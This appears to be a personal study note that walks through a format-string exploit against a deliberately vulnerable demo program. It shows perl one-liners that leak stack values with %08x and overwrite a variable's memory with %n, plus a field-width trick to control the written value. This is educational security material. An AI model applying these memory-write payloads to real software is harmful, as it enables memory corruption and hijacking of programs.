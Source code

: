 ```ad-todo
From my testing, this doesn't work on a modern system even with the flags I specified, I'm not sure why this could be. It requires more testing from me. #TODO
```

We can overwrite data at an address by doing the following:

First, we type:

```bash
./fmt_vuln_test `perl -e 'print "AAAA" . "%08x."x20'`
```

So we can find out where our first string in memory is stored, at what place. This is an example output with this program that you can check out at [[Format string read]]:

```
The right way to print user-controlled input:
AAAA%08x.%08x.%08x.%08x.
The wrong way to print user-controlled input:
AAAAffffc7a0.f7ffdb8c.080491d0.41414141.
[*] test_val @ 0x56559020 = -72 0xffffffb8
```

From this we can see that the hex representation of `AAAA` is `41414141`, and it’s on the 4th place.

We can also see the address of the test_val: `0x56559020`

So we can do the exploit now using `%n`.

```bash
./fmt_vuln_test `perl -e 'print "\x20\x90\x55\x56" . ".%08x"x3 . "%n"'`
```

Where we first print out the address of the thing we want to write to (since that is passed in as a first argument.)

Then we add 3 cases of `%.08x` after it, these format strings will __read__ the first 3 instances of data, then when we reach the fourth one, we __write__ to it with `%n`.

There is a trick to control how many bytes `%n` takes as an argument by using field with like so:

```bash
./fmt_vuln `perl -e 'print "\x20\x90\x55\x56" . "%x%100x%x" . "%n"'`
```

By manipulating this, we can easily reach a higher number that we overwrite with.

Sadly this __ONLY WORKS__ on smaller numbers and not on bigger ones like memory addresses.

```ad-note
Be careful to put the number in the right place.
```

[[Format string write address]]